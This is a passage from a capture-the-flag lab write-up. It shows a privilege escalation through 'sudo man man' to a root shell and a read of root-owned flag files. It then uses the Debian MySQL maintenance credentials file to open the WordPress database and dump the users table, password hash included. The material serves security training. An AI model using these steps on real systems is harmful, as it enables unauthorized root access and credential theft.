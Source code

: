 ![](/images/writeup/internship/hidrogen/getin2.gif)

```bash
john@hydrogrencorp:~$ sudo man man
root@hydrogrencorp:/usr/share/man# find / -name "flag4.txt" 2>/dev/null
/root/flag4.txt
root@hydrogrencorp:/usr/share/man# cat /root/flag4.txt
flag{6d24904be52c92fad1c79fe0e22fff20}
```

So the last one is `flag5.txt`. If we use `find / -name "flag5.txt" 2>/dev/null`, there is no file of this. So we will assume it is in mysql database. We use the mysql credentials earlier.

```bash
root@hydrogrencorp:/tmp# mysql --defaults-file=/etc/mysql/debian.cnf
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 7972
Server version: 5.5.60-0+deb7u1-log (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

`SHOW DATABASES;` --> `USE wordpress;` --> `SHOW TABLES;` --> `SELECT * FROM wp_users;`

```bash
mysql> SELECT * FROM wp_users;
+----+------------+------------------------------------+---------------+------------------+---------------------------------------------+---------------------+---------------------+-------------+--------------+----------------------------------------+
| ID | user_login | user_pass                          | user_nicename | user_email       | user_url                                    | user_registered     | user_activation_key | user_status | display_name | secret                                 |
+----+------------+------------------------------------+---------------+------------------+---------------------------------------------+---------------------+---------------------+-------------+--------------+----------------------------------------+
|  1 | john       | $P$BbzHGQy0mhTKVJKP0rYhhbTwVvhQ9v1 | john          | john@hydrogen.co | https://www.youtube.com/watch?v=dQw4w9WgXcQ | 2023-10-18 18:28:37 |                     |           0 | john         | flag{a260af638f07d39c838810eda005ceb3} |
+----+------------+------------------------------------+---------------+------------------+---------------------------------------------+---------------------+---------------------+-------------+--------------+----------------------------------------+
1 row in set (0.00 sec)

mysql> 

```
